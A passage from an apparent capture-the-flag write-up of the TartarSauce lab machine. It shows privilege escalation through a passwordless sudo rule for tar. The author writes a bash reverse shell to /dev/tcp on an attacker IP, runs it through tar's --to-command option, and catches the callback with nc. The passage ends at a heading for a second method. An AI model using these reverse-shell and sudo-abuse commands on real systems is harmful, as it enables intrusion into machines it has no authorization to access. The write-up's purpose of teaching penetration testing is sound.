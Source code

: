 ### sudo tar

Notice that user `www-data` can run `sudo` with no password for `/bin/tar`:

```

www-data@TartarSauce:/dev/shm$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar

```

### Two Ways to Escalate with sudo tar

#### –to-command

The take advantage of this, first create a shell script that will provide a reverse shell to my host. Then put it into a tar archive.

```

www-data@TartarSauce:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
www-data@TartarSauce:/dev/shm$ tar -cvf a.tar a.sh
a.sh

```

Then I’ll run `tar` with the `--to-command` option. This option takes the output of the tar command, and passes it to another binary for processing. In this case, I’m having my shell script to get a shell passed to bash to run it.

```

www-data@TartarSauce:/dev/shm$ sudo -u onuma tar -xvf a.tar --to-command /bin/bash

```

And I get a callback as onuma:

```

root@kali# nc -lnvp 8082
listening on [any] 8082 ...
connect to [10.10.15.99] from (UNKNOWN) [10.10.10.88] 47320
onuma@TartarSauce:/dev/shm$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
onuma@TartarSauce:/dev/shm$

```

#### –checkpoint-action
